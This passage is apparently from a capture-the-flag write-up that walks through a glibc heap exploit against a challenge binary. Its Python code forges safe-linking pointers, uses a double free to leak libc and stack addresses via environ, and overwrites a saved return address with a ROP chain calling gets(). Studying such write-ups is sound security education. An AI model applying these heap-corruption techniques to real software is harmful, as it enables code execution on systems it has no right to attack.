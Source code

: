 - Modify the size of heap chunk_0 to 0x91 (3 Consolidated HEAPCHUNK sized 0x30 + PREV_INUSE flags).

```python
delete(1)
edit(1, p8(0x06), p64(obf(CHUNK[1], CHUNK[0]-0x10)))
add(1, p64(obf(CHUNK[1], CHUNK[0]-0x10)))
add(5, p64(0)+p64(0x30*3 + 1))

delete(0) # unsorted bin

resp = edit(0, write_data=False)
LEAKED_LIBC = u64(resp.ljust(8, b"\x00"))
libc.address = LEAKED_LIBC - 0x1f6ce0
print("LEAKED_LIBC                  :", hex(LEAKED_LIBC))
print("libc.address                 :", hex(libc.address))
print(f"{hex(libc.symbols['environ'])=}")

# used up unsorted bins 
add(0, b"AAAA\x00")
add(1, b"BBBB\x00")
add(2, b"CCCC\x00")
```
<br>

- Allocate memory at the address just before &environ (in libc) to obtain the stack address by failing the verification in the "verify" menu.

```python
delete(0)
delete(1)

# overwrite the bk pointer 
edit(1, p64(obf(CHUNK[1], CHUNK[0])), p64(0)+p64(0xdeadbeef))

# double free
delete(1) 
edit(1, p64(obf(CHUNK[1], CHUNK[1])), p64(obf(CHUNK[1], libc.symbols["environ"]-0x10)))
add(1, p64(obf(CHUNK[1], libc.symbols["environ"]-0x10)))

# leak stack address
add(6, b"B"*(0x10-1)+b"|")
resp = edit(6, write_data=False)
LEAKED_STACK = u64(resp.split(b"|")[1][:6].ljust(8, b"\x00"))
STACK_SAVED_RIP_ORDER = LEAKED_STACK - 0x160
print("LEAKED_STACK             :", hex(LEAKED_STACK))
print("STACK_SAVED_RIP_ORDER    :", hex(STACK_SAVED_RIP_ORDER))
```
<br>

- Allocate memory at the address just before the saved RIP of the order() function (menu 1) and overwrite it with a ROP chain calling the gets() function (since we can only write up to 32 bytes).

```python
delete(1)
delete(2)

edit(2, p64(obf(CHUNK[2],CHUNK[1])), p64(obf(CHUNK[2], STACK_SAVED_RIP_ORDER&~0xF)))
add(1, b"DUMMY")
p = b""
p += p64(STACK_SAVED_RIP_ORDER-0x20)
p += p64(libc.search(asm("pop rdi; ret;")).__next__())
p += p64(STACK_SAVED_RIP_ORDER-0x20)
p += p64(libc.symbols["gets"])

add(7, p)
```
<br>
